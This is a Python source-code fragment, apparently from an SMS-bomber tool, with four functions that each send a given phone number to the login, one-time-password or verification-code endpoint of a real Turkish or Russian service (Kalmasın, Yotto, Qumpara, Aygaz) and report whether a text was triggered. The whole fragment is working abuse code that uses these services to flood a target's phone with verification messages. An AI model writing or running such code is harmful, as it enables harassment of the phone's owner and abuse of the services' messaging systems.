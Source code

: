 def kalmasin(number):
    try:
        url = "https://api.kalmasin.com.tr/user/login"
        payload = {
            "dil": "tr",
            "device_id": "",
            "notification_mobile": "android-notificationid-will-be-added",
            "platform": "android",
            "version": "2.0.6",
            "login_type": 1,
            "telefon": f"{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["success"]
        if r1 == True:
            return True, "Kalmasın"
        else:
            return False, "Kalmasın"
    except:
        return False, "Kalmasın"

def yotto(number):
    try:
        url = "https://42577.smartomato.ru/account/session.json"
        payload = {
            "phone" : f"+90 ({str(number)[0:3]}) {str(number)[3:6]}-{str(number)[6:10]}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 201:
            return True, "Yotto"
        else:
            return False, "Yotto"
    except:
        return False, "Yotto"

def qumpara(number):
    try:
        url = "https://tr-api.fisicek.com/v1.4/auth/getOTP"
        payload = {
            "msisdn" : f"{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 200:
            return True, "Qumpara"
        else:
            return False, "Qumpara"
    except:
        return False, "Qumpara"

def aygaz(number):
    try:
        url = "https://ecommerce-memberapi.aygaz.com.tr/api/Membership/SendVerificationCode"
        payload = {
            "Gsm" : f"{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 200:
            return True, "Aygaz"
        else:
            return False, "Aygaz"
    except:
        return False, "Aygaz"
